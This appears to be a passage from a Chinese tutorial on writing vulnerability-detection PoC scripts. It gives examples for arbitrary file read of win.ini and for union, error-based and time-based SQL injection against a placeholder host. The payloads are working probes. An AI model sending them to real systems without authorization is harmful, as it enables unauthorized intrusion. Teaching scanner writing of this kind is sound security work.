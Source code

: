 **案例：Windows**  
  
以C:\Windows\win.ini为例：  
```
fp = "C:\\Windows\\win.ini"
rsp, req = poc.HTTPEx(f`GET /file_read?file=${fp} HTTP/1.1
Host: www.vulnerable.com

`)~
body = rsp.GetBody()
if rsp.GetStatusCode() == 200 && len(body) > 0 && "16-bit app support" in body {
    dump("存在漏洞")
}
```  
  
  
## **SQL注入**  
  
此类漏洞我们首先需要知道的是有没有回显，根据回显的有无，我们可以通过不同的方式进行判断。  
  
**案例：有回显 - 联合注入**  
```
// 假设服务器 SQL 查询语句为：select username, password from users where username = '%s'，其中%s为用户可控，存在SQL注入
s = randstr(16)
username = codec.EscapeQueryUrl(f`xxxxx' union all select 1,md5('${s}'); -- `)
rsp, req = poc.HTTPEx(f`GET /union_sql?username=${username} HTTP/1.1
Host: www.vulnerable.com

`)~
body = rsp.GetBody()
if len(body) > 0 && codec.Md5(s) in body {
    dump("存在漏洞")
}
```  
  
**案例：有回显 - 报错注入**  
```
// 假设服务器 SQL 查询语句为：select username, password from users where username = '%s'，其中%s为用户可控，存在SQL注入
s = randstr(16)
username = codec.EscapeQueryUrl(f`1' and updatexml(1,concat(0x7e,md5('${s}'),0x7e,1,0x7e,2),1)-- `)
rsp, req = poc.HTTPEx(f`GET /error_sql?username=${username} HTTP/1.1
Host: www.vulnerable.com

`)~
body = rsp.GetBody()
if len(body) > 0 && codec.Md5(s) in body {
    dump("存在漏洞")
}
```  
  
**案例：无回显 - 延迟注入**  
```
// 假设服务器 SQL 查询语句为：select username, password from users where username = '%s'，其中%s为用户可控，存在SQL注入
// 假设已知一个存在的用户名kobe
username = codec.EscapeQueryUrl(f`kobe' and sleep(3)-- `)
rsp, req = poc.HTTPEx(f`GET /no_output_sql?username=${username} HTTP/1.1
Host: www.vulnerable.com

`)~
body = rsp.GetBody()
if rsp.GetDurationFloat() > 3 {
    dump("存在漏洞")
}
```  
  